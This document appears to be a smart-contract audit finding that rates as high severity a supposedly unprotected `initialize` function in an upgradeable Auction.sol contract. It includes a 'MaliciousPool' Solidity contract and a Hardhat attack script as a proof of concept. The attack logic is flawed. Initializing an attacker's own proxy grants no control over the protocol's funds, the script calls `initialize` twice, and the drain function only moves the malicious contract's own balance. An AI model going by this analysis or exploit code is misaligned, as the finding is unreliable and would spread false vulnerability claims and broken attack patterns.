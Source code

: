 Festive Eggshell Gecko

High

# Drain of Funds in Auction.sol

### Summary


The `initialize` function in the `Auction.sol` contract assigns the `pool` address to `msg.sender` without any access control restrictions. That oversight allows any entity capable of initializing the contract to set the `pool` to an arbitrary or malicious address, enabling unauthorized control over critical auction functionalities. Such unrestricted initialization poses severe risks, including protocol compromise and significant financial losses for users.

which will cause funds drain and couple high severity scenarios that we can avoid.



### Root Cause

**Issue:**  
The `initialize` function in `Auction.sol` sets the `pool` address to `msg.sender` without verifying the caller's authority or intention. This lack of access control permits unauthorized entities to initialize the contract and designate a malicious `pool` contract.

**Affected Code Snippet (`Auction.sol`):**
```solidity
function initialize(
    address _buyCouponToken, 
    address _sellReserveToken, 
    uint256 _totalBuyCouponAmount, 
    uint256 _endTime, 
    uint256 _maxBids, 
    address _beneficiary, 
    uint256 _poolSaleLimit
) initializer public {
    __UUPSUpgradeable_init();

    buyCouponToken = _buyCouponToken; // coupon
    sellReserveToken = _sellReserveToken; // reserve
    totalBuyCouponAmount = _totalBuyCouponAmount; // coupon amount
    endTime = _endTime;
    maxBids = _maxBids;
    pool = msg.sender;
    poolSaleLimit = _poolSaleLimit;

    if (_beneficiary == address(0)) {
        beneficiary = msg.sender;
    } else {
        beneficiary = _beneficiary;
    }
}
```


### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

Given the interactions between `Deployer.sol`, `PoolFactory.sol`, and `Pool.sol`, the attack path for exploiting `Auction.sol` can be outlined as follows:

1. **Deployment:**
   - **Step 1:** Attacker deploys a separate proxy pointing to the vulnerable `Auction.sol` implementation.
   
2. **Initialization:**
   - **Step 2:** Attacker calls the `initialize` function on their proxy instance of `Auction.sol`.
   - **Step 3:** Since `initialize` is `public` and lacks access control, `pool` is set to `msg.sender` (the attacker's address).
   
3. **Exploitation:**
   - **Step 4:** The malicious `pool` contract gains unauthorized control over auction functionalities, allowing actions like draining funds, manipulating bids, or altering state transitions.

**Impact:**
- **Financial Losses:** Users participating in auctions may suffer losses due to unauthorized fund transfers or manipulated auction outcomes.
- **Protocol Compromise:** The integrity and trustworthiness of the protocol are undermined, potentially leading to reputational damage and loss of user confidence.

### Impact

- **Unauthorized Control:** Attackers can set the `pool` address to a malicious contract, granting them complete control over auction functionalities.
  
- **Protocol Compromise:** Malicious manipulation can disrupt auction operations, leading to incorrect fund allocations, unauthorized token transfers, and overall protocol instability.
  
- **Financial Losses:** Users may lose funds due to fraudulent auction manipulations, undermining the protocol's economic integrity.
  


### PoC

### Steps taken by attacker 

1. **Deploy Malicious Pool Contract:**
 First Attacker will create a malicious contract mimicking expected `pool` functionalities but with malicious intent.

2. **Deploy Proxy Pointing to Vulnerable `Auction.sol`:**
   Then Attacker deploys a proxy contract that points to the `Auction.sol` implementation.

3. **Initialize via Proxy:**
   - Attacker calls the `initialize` function through the proxy.
   - During initialization, `pool` is set to `msg.sender` (attacker's address), effectively assigning control to the attacker.

4. **Manipulate Auction Operations:**
   - With control over the `pool` address, the attacker can perform unauthorized actions such as draining funds, altering auction states, or disrupting bid management.

### Example 

**MaliciousPool.sol**
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract MaliciousPool {
    address public auction;

    constructor(address _auction) {
        auction = _auction;
    }

    // Example malicious function to drain funds
    function drainFunds(address reserveToken) external {
        IERC20(reserveToken).transfer(msg.sender, IERC20(reserveToken).balanceOf(address(this)));
    }

    // Additional malicious functions as needed
}
```

**AttackScript.js**
```javascript
// AttackerScript.js
const { ethers, upgrades } = require("hardhat");

async function main() {
    const [attacker] = await ethers.getSigners();

    // Deploy MaliciousPool
    const MaliciousPool = await ethers.getContractFactory("MaliciousPool");
    const maliciousPool = await MaliciousPool.deploy(/* parameters if any */);
    await maliciousPool.deployed();
    console.log("MaliciousPool deployed at:", maliciousPool.address);

    // Deploy Proxy for Auction.sol
    const Auction = await ethers.getContractFactory("Auction");
    const proxy = await upgrades.deployProxy(Auction, [
        /* _buyCouponToken */,
        /* _sellReserveToken */,
        /* _totalBuyCouponAmount */,
        /* _endTime */,
        /* _maxBids */,
        /* _beneficiary */,
        /* _poolSaleLimit */
    ], { initializer: 'initialize' });
    await proxy.deployed();
    console.log("Auction Proxy deployed at:", proxy.address);

    // Initialize Auction via Proxy, setting pool to msg.sender (attacker)
    await proxy.initialize(
        /* _buyCouponToken */,
        /* _sellReserveToken */,
        /* _totalBuyCouponAmount */,
        /* _endTime */,
        /* _maxBids */,
        /* _beneficiary */,
        /* _poolSaleLimit */
    );

    // Now, pool is set to msg.sender, which is the attacker.
    // To set it to MaliciousPool, attacker needs to manipulate the initialize call accordingly.
}

main();
```

### Mitigation


1.Restrict Initialization Access
2.Parameterize and Validate `pool` Address